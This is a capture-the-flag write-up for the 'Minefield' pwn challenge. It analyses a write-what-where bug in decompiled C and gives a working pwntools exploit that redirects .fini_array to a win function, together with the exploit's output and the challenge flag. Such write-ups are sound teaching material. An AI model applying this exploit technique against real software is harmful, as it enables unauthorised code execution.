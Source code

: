 # Cyber Apocalypse 2021

## Minefield

> We found one of the core power plants that drain all of our resources. One member of our team is an expert at mines. Plant the correct type of mine at the correct location to blow up the entire power plant, but be careful, otherwise we are all doomed!
> 
> This challenge will raise 33 euros for a good cause.
>
> [`pwn_mindfield.zip`](pwn_mindfield.zip)

Tags: _pwn_ _x86-64_ _write-what-where_


## Summary

One-shot _write-what-where_ to overwrite `.fini_array` with _win_ function.

## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

No RELRO--every time it's `.fini_array`.

Basically overwrite `.fini_array` with a _win_ function if it exists (or grow your own).


### Decompile with Ghidra

```c
void mission(undefined8 param_1,void *param_2,undefined8 param_3,char *param_4,int param_5, int param_6)
{
  ulonglong *puVar1;
  ulonglong uVar2;
  int extraout_EDX;
  int extraout_EDX_00;
  void *pvVar3;
  long in_FS_OFFSET;
  char local_24 [10];
  char local_1a [10];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  printf("Insert type of mine: ");
  r(local_24,param_2,extraout_EDX,param_4,param_5,param_6);
  pvVar3 = (void *)0x0;
  puVar1 = (ulonglong *)strtoull(local_24,(char **)0x0,0);
  printf("Insert location to plant: ");
  r(local_1a,pvVar3,extraout_EDX_00,param_4,param_5,param_6);
  puts("We need to get out of here as soon as possible. Run!");
  uVar2 = strtoull(local_1a,(char **)0x0,0);
  *puVar1 = uVar2;
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
    __stack_chk_fail();
  }
  return;
}
```

`*puVar1 = uVar2;` is a _write-what-where_.

```
void _(void)
{
  long lVar1;
  size_t __n;
  long in_FS_OFFSET;
  
  lVar1 = *(long *)(in_FS_OFFSET + 0x28);
  __n = strlen(&DAT_00400ccc);
  write(1,&DAT_00400ccc,__n);
  system("cat flag*");
  if (lVar1 != *(long *)(in_FS_OFFSET + 0x28)) {
    __stack_chk_fail();
  }
  return;
}
```

And there's the _win_ function.  I actually missed this in Ghidra; why I always run `objdump -M intel -d` as well.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./minefield')

if args.REMOTE:
    p = remote('206.189.121.131',32732)
else:
    p = process(binary.path)

p.sendlineafter('> ','2')
p.sendlineafter('mine: ',hex(binary.get_section_by_name('.fini_array').header.sh_addr))
p.sendlineafter('plant: ',hex(binary.sym._))
print(p.recvuntil('}').decode())
```

Overwrite `.fini_array` with the location of the function `_`.

Output:

```
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/cyberapocalypsectf2021/mindfield/minefield'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to 206.189.121.131 on port 32732: Done
We need to get out of here as soon as possible. Run!

Mission accomplished! ✔
CHTB{d3struct0r5_m1n3f13ld}
```
